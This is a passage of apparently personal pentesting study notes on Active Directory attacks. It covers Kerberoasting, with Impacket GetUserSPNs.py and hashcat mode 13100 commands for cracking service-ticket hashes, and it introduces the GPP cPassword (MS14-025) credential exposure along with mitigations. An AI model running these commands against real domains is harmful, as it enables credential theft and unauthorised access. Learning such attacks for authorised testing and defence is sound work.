 <br>

In order to authenticate to that server, **we present that TGS** to Application Server, and the **Server will decrypt it using their own Server Hash**! (It will Validate - Yes/No)

Well we have a **TGS** and we can **CRACK THE HASH!**

We gonna use a tool called **GetUserSPNs.py** (Impacket)

	python3 GetUserSPNs.py {domain}/{username}:{password} -dc-ip {ip} -request

It will Return the **HASH**

	crack it with Hashcat!

	hashcat --help | grep Kerberos

	13100	-	Kerberos 5 TGS
	
	hashcat -m 13100 hash.txt rockyou.txt -O
	
	-O for optimize
	
We now have the Password for the SERVICE :)

<br>

### Mitigations

- Strong Passwords
- Least Privilege (Don't make Service Accounts as Domain Administrators lol)

<br>


## GPP-cPassword-Attacks

---

### Group Policy Preferences Attack aka MS14-025

GPP allowed admins to create policies using **embedded** credentials.

These credentials were encrypted and **stored in "cPassword"**.

The way **SYSVOL** works is that it is **storing groups.xml file**, and **in that** XML file, you find that **cPassword!**

The **key** to this encryption **was accidentally released**.

**Patched** in **MS14-025**, but doesn't prevent previous uses.

<br>

### Resources
https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

<br>

### Setup
